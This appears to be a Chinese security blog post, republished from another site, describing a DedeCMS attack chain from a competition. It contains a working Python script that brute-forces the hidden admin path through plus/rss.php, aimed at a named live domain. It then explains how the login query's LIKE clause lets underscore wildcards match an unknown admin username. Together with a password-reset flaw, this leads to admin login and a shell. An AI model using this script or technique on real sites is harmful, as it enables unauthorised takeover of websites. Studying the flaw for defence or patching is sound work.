

Dedecms 猜后台管理员账号的一个小技巧
[摘自]：https://www.yulegeyu.com/2018/09/20/dedecms-guess-admin-username-trick/
巅峰极客里遇到的一个案例(yx-tv.com)。
寻找后台
案例为,windows下的dedecms 好像是2017版本, 开启了会员中心,修改了后台的路径, 然后用之前windows下dedecms找后台路径的方法, 发现tags.php被删除了, 但是plus/rss.php文件存在, 然后用这方法就成功的找到了后台。
import requests
import sys
payloads = 'abcdefghijklmnopqrstuvwxyz0123456789_-'
menu = ''
for k in range(10):
for payload in payloads:
data = "dopost=save&_FILES[b4dboy][tmp_name]=../%s%s</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif"% (menu, payload)
res = requests.post("http://www.yx-tv.com/plus/rss.php", data=data, headers={"Content-Type":"application/x-www-form-urlencoded"})
if res.content.decode("utf-8").find("Error") > -1:
menu += payload
break
if payload == '-':
print(menu)
sys.exit()
print(menu)
获取管理员账户
然后猜了下后台的管理员账户, 没猜到, admin直接提示账户不存在。 然后再利用之前的重置管理员密码的漏洞。
成功重置了管理员的密码, 但是修改cookie登录后, 发现显示的管理员账号是admin, 但是之前在登录后台的时候试了下admin, 是直接提示的账户不存在。 (好像是显示的是uname, 但是最终登录是看的userid)
后面发现在dede/login.php中
$res = $cuserLogin->checkUser($userid,$pwd);
/**
* 检验用户是否正确
*
* @access public
* @param string $username 用户名
* @param string $userpwd 密码
* @return string
*/
function checkUser($username, $userpwd)
{
global $dsql;
//只允许用户名和密码用0-9,a-z,A-Z,'@','_','.','-'这些字符
$this->userName = preg_replace("/[^0-9a-zA-Z_@!\.-]/", '', $username);
$this->userPwd = preg_replace("/[^0-9a-zA-Z_@!\.-]/", '', $userpwd);
$pwd = substr(md5($this->userPwd), 5, 20);
$dsql->SetQuery("SELECT admin.*,atype.purviews FROM `#@__admin` admin LEFT JOIN `#@__admintype` atype ON atype.rank=admin.usertype WHERE admin.userid LIKE '".$this->userName."' LIMIT 0,1");
$dsql->Execute();
$row = $dsql->GetObject();
if(!isset($row->pwd))
{
return -1;
}
else if($pwd!=$row->pwd)
{
return -2;
}
else
{
$loginip = GetIP();
$this->userID = $row->id;
$this->userType = $row->usertype;
$this->userChannel = $row->typeid;
$this->userName = $row->uname;
$this->userPurview = $row->purviews;
$inquery = "UPDATE `#@__admin` SET loginip='$loginip',logintime='".time()."' WHERE id='".$row->id."'";
$dsql->ExecuteNoneQuery($inquery);
$sql = "UPDATE #@__member SET logintime=".time().", loginip='$loginip' WHERE mid=".$row->id;
$dsql->ExecuteNoneQuery($sql);
return 1;
}
}
先通过用户输入的用户名查询出密码, 如果有记录的话, 就比对密码。 但是在这里 根据用户名查询密码的时候
WHERE admin.userid LIKE '".$this->userName."
竟然是用的like。
$this->userName = preg_replace("/[^0-9a-zA-Z_@!\.-]/", '', $username);
虽然在前面有把一些用户名不允许的字符给替换为空了, 想直接用%这种匹配任意数量字符的模糊查询出数据就不行了。 但是可以看到这个过滤没有把_替换为空。
With LIKE you can use the following two wildcard characters in the pattern:
% matches any number of characters, even zero characters.
_ matches exactly one character.
在mysql中的模糊查询中, _也代表着匹配一个任意字符。

所以在不知道管理员的用户名的情况下， 只要去用跑一下, 当的位数和管理员账户的位数相同时即可登录成功了。
巅峰极客的是4位数, 然后用之前修改管理员密码的洞修改的密码, 就成功登录了后台, 然后后台getshell, 就搞定了。